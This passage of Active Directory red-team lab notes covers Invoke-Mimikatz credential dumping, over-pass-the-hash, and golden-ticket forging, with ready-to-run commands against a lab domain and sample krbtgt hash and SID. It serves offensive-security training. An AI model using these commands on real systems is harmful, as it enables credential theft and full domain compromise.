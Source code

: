 #### Dump credentials on a local machine.
```powershell
Invoke-Mimikatz -DumpCreds
```

#### Dump credentials on multiple remote machines.
```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")
```

Invoke-Mimikatz uses PowerShell remoting cmdlet Invoke-Command to do above.

#### Over pass the hash, generate tokens from hashes
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntlmhash> /run:powershell.exe"'
```

# Learning Objective 7

• Domain user on one of the machines has access to a server where a domain admin is logged in. Identify:
– The domain user
– The server where the domain admin is logged in.

• Escalate privileges to Domain Admin
– Using the method above.
– Using derivative local admin

# Kerberos Overview

![image](https://user-images.githubusercontent.com/40224197/211092233-09072959-26e6-43fc-8ee0-f51920b2faf0.png)


# Golden Ticket

• A golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket.

• Since user account validation is not done by Domain Controller (KDC service) until TGT is older than 20 minutes, we can use even deleted/revoked accounts.

• The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine.

• Password change has no effect on this attack.

#### Execute mimikatz on DC as DA to get krbtgt hash
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' –Computername dcorp-dc
```

#### On any machine
```powershell 
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
